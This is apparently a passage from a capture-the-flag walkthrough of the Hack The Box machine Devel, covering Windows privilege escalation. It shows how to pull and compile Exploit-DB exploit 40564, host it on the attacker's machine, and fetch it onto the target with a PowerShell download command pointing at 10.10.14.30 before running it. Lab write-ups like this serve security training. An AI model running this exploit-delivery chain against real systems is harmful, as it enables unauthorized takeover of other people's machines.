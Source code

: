 Get the **EDB-ID** from the web page, so that we can use it to find the exploit in **searchsploit**.

![](https://miro.medium.com/max/315/1*Jzmov1T7A3yERiX9WILsAQ.png)

Update **searchsploit** to ensure you have all the latest vulnerabilities.

```text
searchsploit -u 
```

Use the **-m** flag to look for the exploit **40564** and copy it to the current directory.

```text
searchsploit -m 40564
```

![](https://miro.medium.com/max/832/1*mP4lC3jgHcAIc3sqyrPE_Q.png)

Now, we need to compile the exploit. The compilation instructions are in the [exploitdb webpage](https://www.exploit-db.com/exploits/40564).

![](https://miro.medium.com/max/768/1*5vBVQwS3cjvosENTY8RbYA.png)

If you don’t have mingw-w64 installed, install it.

```text
apt-get updateapt-get install mingw-w64
```

Compile it using the listed command.

```text
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Alright, we have a compiled exploit. Now what is left is to transfer the exploit to the target \(Devel\) machine.

Start up a server on the attack \(Kali\) machine.

```text
python -m SimpleHTTPServer 9005
```

Netcat doesn’t seem to be installed on Windows, but powershell is. So, we’ll use it to transfer the file from our server to a directory we can write to.

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.30:9005/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

![](https://miro.medium.com/max/708/1*sdyxn2zv_pft4yTbT6CIrQ.png)

The file is now in the Downloads directory. Execute it and check if the exploit worked and escalated our privileges.

![](https://miro.medium.com/max/547/1*xG_P5oPYXh5cMZXV77hVyA.png)
